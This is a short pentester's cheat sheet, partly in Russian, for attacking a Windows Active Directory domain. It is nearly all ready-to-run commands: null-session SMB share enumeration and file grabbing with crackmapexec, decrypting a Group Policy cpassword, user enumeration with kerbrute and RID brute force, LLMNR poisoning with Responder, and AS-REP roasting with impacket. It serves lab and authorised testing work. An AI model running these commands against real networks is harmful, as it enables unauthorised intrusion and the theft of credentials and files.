 # DOMAIN


# Check list domain

* clock sync

		sudo timedatectl set-ntp off
		sudo timedatectl set-ntp false 
		sudo timedatectl set-time '20:20:10'
		sudo date --set="2022-01-01 12:00:00"
  		sudo net time set -S 10.10.11.181
  		sudo ntpdate
* Shares Enum

  		crackmapexec smb 192.168.2.123 -p '' -u ''
  		crackmapexec smb 192.168.2.123 -p 'jksdfhgv' -u '' -M spider_plus
		cat 192.168.134.10.json | jq '. | map_values(keys)'
  		crackmapexec smb hosts_r.txt -u '' -p '' --get-file \\kanban\pkb.zip pkb.zip
		
  		Snaffler.exe -s -o snaffler_output.log -d test.local -c 10.10.10.1

* Расшифровка пароля из XML для груповой политики для старых Windows

  		gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
  
* user found
	- with Kerbrute

		https://github.com/insidetrust/statistically-likely-usernames (списки юзеров)
		sudo git clone https://github.com/ropnop/kerbrute.git (репозиторий кербрут)
		kerbrute userenum --dc 172.16.5.5 -d INLANEFREIGHT.LOCAL /opt/jsmith.txt (пример комманды)

 	- with crackmapexec
  
		crackmapexec smb 10.10.10.10 -p "anonymous" -p '' --rid-brute
		
	- with RPCCLIENT

		rpcclient -U '' -N  10.10.10.169
    
* MultiCast enum

		sudo responder -I ens224
  		(ответ собирается в /usr/share/responder/logs)

* kerbrute
    		
		~/kerbrute_linux_amd64 userenum users.txt --dc 192.168.50.110 -d vd.local
* not_preauth

  		impacket-GetNPUsers -dc-ip 192.168.50.110 vd.local/ -usersfile users.txt | grep '$krb'

  		-----Kerberoasting without credentials

  		python3 -m venv impacket-fork
		source ./impacket-fork/bin/activate
		git clone https://github.com/ThePorgs/impacket.git
		cd impacket
		python3 setup.py install
